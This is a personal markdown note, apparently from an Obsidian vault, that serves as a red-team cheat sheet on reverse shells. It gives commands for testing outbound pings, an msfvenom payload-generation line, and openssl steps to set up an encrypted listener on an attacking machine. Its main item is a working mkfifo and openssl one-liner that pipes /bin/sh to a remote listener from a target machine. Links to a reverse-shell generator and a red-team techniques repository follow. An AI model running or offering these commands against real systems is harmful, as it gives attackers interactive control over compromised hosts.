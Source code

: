```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Reverse Shells]]  
___

## Description:  

[Reverse Shell Generator](https://www.revshells.com/)

Test for incoming pings

```
ping -c 3 192.168.49.85

sudo tcpdump -i any  ip proto icmp
```
or create a payload with msfvenom:
```
msfvenom -f c -p windows/exec CMD="cmd.exe /C ping 192.168.0.135"
tcpdump icmp -n -i wlan0
```
### Encrypted Reverse Shells with OpenSSL

Generate SSL certificate:

```
openssl req -x509 -quiet -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

Start an SSL listener on your attacking machine using `openssl`:

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

Run the payload on target machine using `openssl`:

```
mkfifo /tmp/s;/bin/sh -i</tmp/s 2>&1|openssl s_client -quiet -connect 127.0.0.1:4444>/tmp/s 2>/dev/null;rm /tmp/s
```

Others: https://github.com/RoseSecurity/Red-Teaming-TTPs/blob/main/Linux.md

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:30 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
